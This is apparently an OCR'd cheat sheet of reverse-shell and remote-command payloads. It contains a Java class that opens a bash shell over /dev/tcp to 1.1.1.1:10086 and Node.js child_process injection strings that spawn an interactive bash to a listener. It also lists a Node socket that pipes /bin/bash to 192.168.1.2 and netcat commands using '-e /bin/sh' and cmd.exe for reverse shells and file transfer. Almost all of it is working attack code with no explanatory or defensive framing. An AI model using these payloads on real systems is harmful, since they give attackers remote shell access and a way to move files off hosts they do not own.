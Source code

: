 java -jar /tmp/revs1.jar;

import java.io.IOException;    
public class ReverseShell {    
    public static void main(String[] args) throws IOException, InterruptedException {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/10086;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }

}

NODEJS:
--------

/?q=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/nc_host/nc_port+0>%261"')

q=require('child_process').exec('/bin/bash')

var net = require('net'),sh = require('child-process').exec('/bin/bash');
var client = new net.Socket();
client.connect(5555,'192.168.1.2',function(){
client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);}); 

-------------
NETCAT:
------------

The syntax depends on the netcat package.

netcat-openbsd: nc -l 192.168.2.1 3000

netcat-traditional: nc -l -p 3000 -s 192.168.2.1

direct shell: nc IP PORT -e /bin/sh or -c /bin/sh depends on netcat version 

REVERSE SHELLS:
-----------------

ATTACKBOX: nc -lvp 9000

VICTIM: nc IP PORT -e /bin/sh (LINUX) -e cmd.exe (WINDOWS) 

Simple chat: 
------------
Server: nc -l -p 9000 -s IP

Client: nc IP PORT

File transfer: 
---------------

nc IP PORT < test.txt 

nc -l -s IP > test.txt 
